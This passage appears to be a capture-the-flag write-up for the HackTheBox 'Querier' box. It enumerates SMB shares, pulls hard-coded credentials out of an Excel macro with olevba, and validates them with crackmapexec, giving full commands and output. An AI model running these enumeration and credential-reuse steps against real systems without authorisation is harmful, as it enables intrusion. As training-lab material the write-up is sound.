 #We see that 445 (SMB) is available so we can perhaps get more info with crackmapexec.

crackmapexec smb 10.10.10.125
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)

#With smbmap we can check the shared files (-L and -N flags) and then check for permission. We needed to try more than once to give us results for some weird reason.

smbmap -H 10.10.10.125 -u 'null'
[+] Guest session   	IP: 10.10.10.125:445	Name: 10.10.10.125                                      
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	Reports                                           	READ ONLY	

#Continue enumerating the directories. We see a file that we download to our machine with smbclient

smbclient //10.10.10.125/reports -N
smb: \> ls
  .                                   D        0  Tue Jan 29 00:23:48 2019
  ..                                  D        0  Tue Jan 29 00:23:48 2019
  Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019

		5158399 blocks of size 4096. 821963 blocks available

smb: \> get "Currency Volume Report.xlsm"

# opening the file shows nothing. But we get a warning about some macros so we install oletools and examine the file with olevba.

sudo -H pip install -U oletools

olevba Currency\ Volume\ Report.xlsm

#olveba shows a user and a pwd reporting:PcwTWTHRwryjc$c6. We verify the user is not valid but it is valid at a domain level. 

❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6'
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [-] HTB.LOCAL\reporting:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS 

❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6

#we check if we can connect with evilrm by checking if the user can winrm but it cannot so no evilrm for us.


crackmapexec winrm 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
HTTP        10.10.10.125    5985   10.10.10.125     [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   10.10.10.125     [-] WORKGROUP\reporting:PcwTWTHRwryjc$c6

